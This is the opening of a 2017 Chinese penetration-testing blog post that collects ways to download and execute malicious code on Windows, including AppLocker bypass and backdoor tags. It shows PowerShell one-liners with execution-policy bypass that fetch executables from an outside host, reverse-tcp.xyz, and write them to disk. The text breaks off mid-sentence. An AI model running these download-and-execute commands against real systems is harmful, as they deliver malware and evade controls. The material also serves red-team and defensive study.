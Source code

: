 ```yaml
---
layout:     post
title:      "Windows上传并执行恶意代码的N种姿势"
subtitle:   "Tricks Collection"
date:       2017-12-28
author:     "Urahara"
header-img: "img/985b529ed039ca38db9b6fbeddd6dfa7.jpg"
header-mask: 0.3
catalog:    true 
tags: 
    - 渗透测试
    - Windows
    - DLL Injection
    - Backdoor
    - AppLocker ByPass

---
```


### 简介

在各种钓鱼、挖矿、勒索、组建僵尸网络、基础渗透、后渗透过程当中，攻击者都会通过一些方法去下载执行恶意代码并执行完成攻击操作，比如前段时间通过Office DDE执行powershell的，利用宏执行VBS的，绕过权限限制完成危险命令执行的等等，都需要用到文件下载/上传姿势，一般说按照途径可以分为：

1. 通过HTTP、FTP URL进行传输类
2. 通过UNC进行传输类
3. 通过磁盘写入类

而payload执行则具体可以分为**有文件类**和**无文件类**，具体分的话就是**内存执行、本地缓存、磁盘文件**

通过HTTP下载的对象的本地缓存将是IE本地缓存，在以下位置：

- *C:\Users\<username>\AppData\Local\Microsoft\Windows\Temporary Internet Files*
- *C:\Users\<username>\AppData\Local\Microsoft\Windows\INetCache\IE\<subdir>*

通过指向WebDAV服务器的UNC路径访问的文件将被保存在WebDAV客户机本地缓存中：

- *C:\Windows\ServiceProfiles\LocalService\AppData\Local\Temp\TfsStore\Tfs_DAV*

下面我们会总结一些下载和执行的方法，其中也大量包含一些AppLocker ByPass技术和dll注入技术，部分也可以用于后门创建，大家可以根据不同的环境和场景选择使用，当然我会不断地收集各种姿势来更新本文以求更为全面。

### 下载方法

#### Powershell

powershell是最著名的一种方法了，一般的文件下载命令如下

```powershell
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://reverse-tcp.xyz/test.exe','C:\test.exe')
powershell (Invoke-WebRequest http://reverse-tcp.xyz/test.jpg -O test.jpg)
```

当然也可以从UVC读取
